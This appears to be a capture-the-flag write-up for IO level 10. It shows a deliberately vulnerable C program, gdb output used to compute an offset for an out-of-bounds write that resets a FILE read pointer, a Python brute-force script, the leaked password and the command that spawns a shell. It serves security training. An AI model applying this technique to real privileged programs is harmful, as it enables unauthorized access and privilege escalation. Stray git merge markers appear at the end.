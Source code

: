 # IO Level 10

## Problem
This problem has a fairly small code.
````
//written by andersonc0d3
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

int main(int argc, char **argv){
        FILE *fp = fopen("/levels/level10_alt.pass", "r");
        struct {char pass[20], msg_err[20]} pwfile = {{0}};
        char ptr[0];

        if(!fp || argc != 2)
                return -1;

        fread(pwfile.pass, 1, 20, fp);
    pwfile.pass[19] = 0;
        ptr[atoi(argv[1])] = 0;
        fread(pwfile.msg_err, 1, 19, fp);
        fclose(fp);

        if(!strcmp(pwfile.pass, argv[1]))
                execl("/bin/sh", "sh", 0);
        else
                puts(pwfile.msg_err);


        return 0;
}
````

## Writeup

This program opens a "secret" file and reads the password. It also takes a command line argument and compares it with the password that is read. If they both match, a shell is 
given. However, there is no access to read the password file directly as it is set to elevated permission. 
The program also reads the next few bytes from the same file which is supposed to be the "error message". If the passwords dont match, the program then prints out the error message.
Also, there is a statement `ptr[atoi(argv[1])] = 0;` which sets the byte at (ptr + argv[1]) to zero. This is done after the first read from the password file. 

At this point, one can figure out that since there are reads happening on the same file, and this out-of-the-place statement is setting a byte to zero and dependant on the 
command line argument, there is a way to reset the read pointer of the file. If the pointer is reset, when there is a second read into the `msg_err` buffer, it reads the password
instead of the error message.

On opening this binary in gdb, and examining the structure of `FILE`:

````
(gdb) p *fp
$27 = {_flags = -72539000, _IO_read_ptr = 0x0, _IO_read_end = 0x0, _IO_read_base = 0x0, _IO_write_base = 0x0, _IO_write_ptr = 0x0, _IO_write_end = 0x0, _IO_buf_base = 0x0,
  _IO_buf_end = 0x0, _IO_save_base = 0x0, _IO_backup_base = 0x0, _IO_save_end = 0x0, _markers = 0x0, _chain = 0xb7fcf580, _fileno = 7, _flags2 = 0, _old_offset = 0, _cur_column = 0,
  _vtable_offset = 0 '\000', _shortbuf = "", _lock = 0x804a0a0, _offset = -1, __pad1 = 0x0, __pad2 = 0x804a0ac, __pad3 = 0x0, __pad4 = 0x0, __pad5 = 0, _mode = 0,
  _unused2 = '\000' <repeats 39 times>}
(gdb)
````

There is a pointer called `_IO_read_ptr` which is initially 0.
This program cant be debugged directly in gdb because opening this in gdb would render the elevated password file inaccessible. One way is to compile this binary at a temporary
location and creating a password file on our own. On running the gdb on the temporary program and checking the `FILE` fter doing the read,

````
(gdb) p *fp
$28 = {_flags = -72539000, _IO_read_ptr = 0xb7fde014 "aaaaaaaaaabbbbbbbbbb\n", _IO_read_end = 0xb7fde029 "", _IO_read_base = 0xb7fde000 "01234567890123456789aaaaaaaaaabbbbbbbbbb\n",
  _IO_write_base = 0xb7fde000 "01234567890123456789aaaaaaaaaabbbbbbbbbb\n", _IO_write_ptr = 0xb7fde000 "01234567890123456789aaaaaaaaaabbbbbbbbbb\n",
  _IO_write_end = 0xb7fde000 "01234567890123456789aaaaaaaaaabbbbbbbbbb\n", _IO_buf_base = 0xb7fde000 "01234567890123456789aaaaaaaaaabbbbbbbbbb\n",
  _IO_buf_end = 0xb7fdf000 "d\360\375\267\323\300\377\267", _IO_save_base = 0x0, _IO_backup_base = 0x0, _IO_save_end = 0x0, _markers = 0x0, _chain = 0xb7fcf580, _fileno = 7, _flags2 = 0,
  _old_offset = 0, _cur_column = 0, _vtable_offset = 0 '\000', _shortbuf = "", _lock = 0x804a0a0, _offset = -1, __pad1 = 0x0, __pad2 = 0x804a0ac, __pad3 = 0x0, __pad4 = 0x0, __pad5 = 0,
  _mode = -1, _unused2 = '\000' <repeats 39 times>}
(gdb)
````

Note that the _IO_read_ptr is now pointing to the location after the password is read and this has to be reset to the beginning. On printing the address of this pointer in memory
and the address of `ptr` variable which allows us to set an "arbitrary" byte to 0
````
p &fp._IO_read_ptr
$29 = (char **) 0x804a00c
p &ptr
$30 = (char (*)[]) 0xbffffc74
````
So the difference would be 
````
p (int)&ptr - (int)&fp._IO_read_ptr
$31 = -1208263576
```` 

So if I pass 1208263576 as the argument, it sets the first byte of value pointed to by fp._IO_read_ptr to 0. Since there were only 20 bytes read, setting the first byte to zero 
would reset the pointer. However, it wont set the required byte to zero adn fread still reads the "error message" into the `msg_err` buffer.

Note that the address of pointer `ptr` depends on the length of command line argument since the command line argument is stored on the stack. On performing the same calculations with
the new argument obtained above (1208263576)

````
p (int)&ptr - (int)&fp._IO_read_ptr
$40 = -1208263592
````

Thus the new argument is 1208263592. This argument resets the read pointer and causes the password to be printed out as error message.

However, on running this on the original binary, the offsets vary. One method is to brute force the program with different values around the values obtained in gdb. The 
python script described below does that.

````
#!/usr/bin/env python
import subprocess
import sys

start = 1208260000
end = 1208270000
for i in range(start, end):
    try:
        output = subprocess.check_output(["/levels//level10", str(i)], stderr=None)
    except Exception:
        continue
    if output.find("ACCESS") == -1:
        print i
````

This find the value to be "1208263612". Hence on running,
` /levels/level10 1208263612`
the password that is supposed to be input is obtained.
"AverYloNgPassword!!"

**This is then passed to the binary using
`/levels/level10 `python -c 'print "AverYloNgPassword!!"'`
and the shell is obtained.**
<<<<<<< HEAD


=======
>>>>>>> origin/master

